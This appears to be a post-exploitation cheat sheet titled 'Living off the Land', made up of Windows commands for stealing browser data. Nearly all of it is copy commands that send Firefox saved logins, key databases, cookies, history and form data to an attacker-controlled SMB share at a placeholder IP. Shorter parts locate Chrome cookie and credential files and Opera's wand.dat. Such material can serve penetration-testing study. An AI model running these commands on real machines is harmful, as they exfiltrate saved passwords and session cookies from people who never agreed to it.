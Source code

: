 # Living off the Land

## 01 - Command Prompt

### 1.1 - Firefox Profiles

Copy all SQLite files.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles*.sqlite \\<IP>\<share_name>\

C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.json \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.dat \\<IP>\<share_name>\
```

The database files contains bookmarks, downloads and browsing history, site-specific preferences (permissions), autocomplete history, and cookies.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\places.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\permissions.sqlite \\<IP>\<share_name>\

copy %appdata%\Mozilla\Firefox\Profiles\formhistory.sqlite \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\cookies.sqlite \\<IP>\<share_name>\
```

Contains saved passwords.

```
C:\> copy %appdata%\Mozilla\Firefox\Profiles\key3.db \\<IP>\<share_name>\

copy /c /s %appdata%\Mozilla\Firefox\Profiles\logins.json \\<IP>\<share_name>\
```

Security certificate settings.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\cert8.db \\<IP>\<share_name>\
```

Search engines.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\search.json.mozlz4 \\<IP>\<share_name>\
```

Personal dictionary.

```
C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\persdict.dat \\<IP>\<share_name>\
```

### 1.2 - Google Chrome

TODO: Fill this information

Contains encrypted SQLite files that stores the credentials.

```
C:\> dir %appdata%\Local Settings\Application Data\Google\Chrome\User Data\Default\Web Data\*.sqlite
```

### 1.3 - Opera

```
C:\> dir %appdata%\Application Data\Opera\Opera\profile\wand.dat
```

## 02 - PowerShell

```
PS C:\> $env:USERPROFILE + '\AppData\Local\Google\Chrome\User Data\Default\Cookies' | Get-Item
```

---
## References

- [Retrieving Data From Thunderbird and Firefox](https://thevivi.net/blog/pentesting/2020-09-06-retrieving-data-from-thunderbird-and-firefox/)

- [FareedFauzi Resources Windows Post Exploitation](https://fareedfauzi.gitbook.io/oscp-notes/windows-post-exploitation/resources-windows-post-exploitation)

- [Mango PDF Zone Stealing Chrome Cookies Without a Password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)